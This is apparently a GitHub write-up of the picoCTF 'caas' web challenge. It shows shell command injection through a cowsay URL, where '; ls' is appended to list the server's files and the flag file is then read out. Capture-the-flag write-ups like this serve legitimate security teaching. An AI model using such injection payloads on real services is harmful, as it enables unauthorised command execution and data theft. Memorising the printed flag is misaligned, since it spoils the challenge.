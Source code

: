# **caas   → 150 Pts.**

1. We land on the page saying 

**Make a request to the following URL to cowsay your message:**

```
https://caas.mars.picoctf.net/cowsay/{message}
```

2. For trying, We enter any random message to get an output and it does shows our message back to us.

[https://caas.mars.picoctf.net/cowsay/I_am_Ryx](https://caas.mars.picoctf.net/cowsay/I_am_Ryx)

```
 __________
< I_am_Ryx >
 ----------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

3. I used _Wappalyzer_ to see what type of page we are in and what kind of services it’s using
4. Using it, we get to know that it uses _node.js_ services (_index.js_ is already given to us as a separate file for downloading)
5. So tried appending it in the end ```; ls```

[https://caas.mars.picoctf.net/cowsay/ryx; ls](https://caas.mars.picoctf.net/cowsay/ryx;%20ls)

```
 _____
< ryx >
 -----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

6. We have _falg.txt_ here so we will simply cat it out. 

```
 _____
< ryx >
 -----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

7. There we have it…our flag.


## It was a notorious challenge, as it required us to use our pre gained knowledge of JS and web files.

